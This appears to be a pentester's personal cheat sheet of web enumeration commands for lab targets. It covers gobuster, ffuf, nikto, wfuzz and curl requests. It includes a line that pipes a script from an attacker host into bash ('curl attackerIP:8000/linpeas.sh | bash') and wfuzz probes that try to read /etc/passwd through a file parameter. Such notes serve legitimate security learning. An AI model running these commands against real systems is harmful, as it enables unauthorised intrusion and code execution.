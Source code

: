 ```
echo -ne "GET / HTTP/1.1\r\nHost: google.com\r\nConnection: close\r\n\r\n"
```

![](Pasted%20image%2020230923182239.png)

```
GET / HTTP/1.1\r\n
Host: google.com\r\n
Connection: close\r\n\r\n
```

```
\r (carriage return or 0x0d)
\n (new line or 0x0a)
```

```
nikto -h url
```

dirbuster
gobuster
feroxbuster

```
searchsploit mod ssl 2
```

```
dirb url
```

```
ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt:FUZZ -u url/FUZZ
```

```
gobuster dir -w /usr/share/wordlists/dirb/big.txt --url http://academy.htb/ -x .php, .txt -o gobuster-result.txt
```

```
gobuster dir -w /usr/share/seclists/Discovery/Web-Content/raft-small-words.txt -x php -u http://academy.htb -o gobuster-dir-root.log
```

```
gobuster dir -u http://$IP -w /usr/share/dirb/wordlists/common.txt | tee enum/gobuster-dir-p80.log
```

```
gobuster vhost -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -u http://academy.htb -o gobuster-vhost-sub.txt
```

```
grep \.git /usr/share/seclists/Discovery/Web-Content/raft-small-words.txt
```

![](Pasted%20image%2020231014122728.png)

```
curl -v 'url' -X POST --data '<key><value>>please</value></key>\n' -H 'Content-Type:application/xml'
```

```
curl -v 'url' -X POST --data '{"key": "please"}' -H 'Content-Type:application/json' --trace-ascii -
```

```
curl -v 'url' -X POST --data 'key: please' -H 'Content-Type:application/yaml' --trace-ascii -
```

```
curl attackerIP:8000/linpeas.sh | bash
```

```
python3 -m http.server
```

https://book.hacktricks.xyz/pentesting-web/web-tool-wfuzz

```
wfuzz -u http://192.168.237.104/file.php?FUZZ=/etc/passwd --hw 14 -w /usr/share/wordlists/dirb/big.txt
```

```
wfuzz -u http://192.168.237.104/file.php?FUZZ=/etc/passwd --hw 14 -w /usr/share/wordlists/dirb/big.txt
```

### Directory & Files Bruteforce

*Filter by whitelisting codes*

```
wfuzz -c -z file,/usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt --sc 200,202,204,301,302,307,403 http://example.com/uploads/FUZZ
```

```
wfuzz -c -z file,/usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt --hc 404 http://vulnerable.site/FUZZ
```

